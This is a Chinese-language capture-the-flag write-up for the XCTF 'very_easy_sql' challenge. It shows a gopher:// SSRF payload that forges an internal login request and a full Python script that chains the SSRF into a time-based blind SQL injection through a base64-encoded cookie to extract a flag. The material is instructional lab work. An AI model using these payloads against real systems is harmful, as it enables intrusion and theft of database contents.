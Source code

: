 # very_easy_sql

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=054646ec-17ad-11ed-abf3-fa163e4fa609)

《very_easy》

进来直接懵逼，根本没找到注入点，只有一句提示告诉我们不是内部用户。

![no_sqi](../../images/no_sqi.png)

看下源代码，这个表单根本就没提交，这是静态的。不过注释里有一句use.php（我之前还以为要把表单提交到use.php……），去看看。

然后是一个要求输入url进行curl的页面。[大佬](https://blog.csdn.net/m0_48780534/article/details/126309908)告诉我们这可能是ssrf的提示。随便提交一个url发现有get参数url。

- ?url=127.0.0.1/use.php

把上面这个内容输入进去就得到了两个相同页面，而且是可以无限套娃的。这就是ssrf的特征之一。ssrf中常用的一个协议为[gopher](https://zhuanlan.zhihu.com/p/112055947)，因为普通的www网址是无法发送自定义post和get等请求的（也许吧，我又是猜的）。

- ?url=gopher://127.0.0.1:80/_POST%2520/index.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AUser-Agent%253A%2520curl/7.43.0%250D%250AAccept%253A%2520%252A/%252A%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252024%250D%250Auname%253Dadmin%2526passwd%253Dadmin%250D%250A

构建一个payload。127.0.0.1:80就是实际的包内容，不过要经过url编码。开始有一个_符号是因为gopher会吃掉第一个符号，也就是第一个符号是无法接收到的。也可以换成任意其他字符，不过_好像最常用。%0d%0a表示回车和换行，也用来表示包的结束。name和password的值只能猜，也不知道为啥，不过弱密码用户名总是admin，密码123456，admin等等都可以试试。

上面那个大佬通过增加xff热referer头得到了admin的cookie，但是我的bp总是发送xff时就卡。直接放大佬的exp。

```python
import requests
import time
import base64
url="http://61.147.171.105:51314//use.php?url="
flag=""
for pos in range(1,50):
    for i in range(33,127):
        #poc="') union select 1,2,if(1=1,sleep(5),1) # "

        #security
        #poc="') union select 1,2,if(ascii( substr((database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "

        #flag
        #poc="') union select 1,2,if(ascii( substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        poc="') union select 1,2,if(ascii( substr((select * from flag),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        bs = str(base64.b64encode(poc.encode("utf-8")), "utf-8")
        final_poc="gopher://127.0.0.1:80/_GET%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aCookie%3A%20this%5Fis%5Fyour%5Fcookie%3D"+bs+"%3B%250d%250a"
        t1=time.time()
        res=requests.get(url+final_poc)
        t2=time.time()
        if(t2-t1>2):
            flag+=chr(i)
            print(flag)
            break
print(flag)
```

注释部分是大佬添加的爆库名、表名的内容，剩下的是官方exp。sql找到闭合点后使用时间盲注，因为没有回显。这个exp需要比较长的时间，如果暂时出不来不要担心。